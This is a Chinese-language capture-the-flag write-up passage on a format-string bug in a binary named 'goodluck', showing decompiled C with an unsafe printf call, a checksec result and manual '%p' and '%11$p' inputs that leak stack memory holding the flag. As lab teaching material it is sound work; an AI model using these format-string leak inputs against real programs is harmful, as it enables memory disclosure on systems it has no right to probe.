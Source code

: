 ```c
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);    <=============格式化字符串漏洞利用， 直接泄漏栈内存其实可以看到。
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

检查防护机制开启

```shell
checksec goodluck
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/toor/.pwntools-cache/update to 'never'.
[*] A newer version of pwntools is available on pypi (3.12.1 --> 3.12.2).
    Update with: $ pip install -U pwntools
[*] '/home/toor/Desktop/goodluck'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

首先确定覆盖的偏移是多少

```shell
手工偏移计算，及泄漏栈中数据：
 ./goodluck
what's the flag
AAAAAA%p%p%p%p%p%p%p%p%p%p%p%p
You answered:
AAAAAA0xd5c0100x7fd5f871a7800x7fd5f844b2c00x7fd5f89297000x7fd5f89297010x410000010xd5c8300xd5c0100x7ffcb5fa62100x4141417b67616c660x41414141414141410x414141414141
But that was totally wrong lol get rekt


toor@ubuntu:~/Desktop$ ./goodluck
what's the flag
%11$p
You answered:
0x4141414141414141
But that was totally wrong lol get rekt

即 获取到 第10个参数的值为提取参数
```
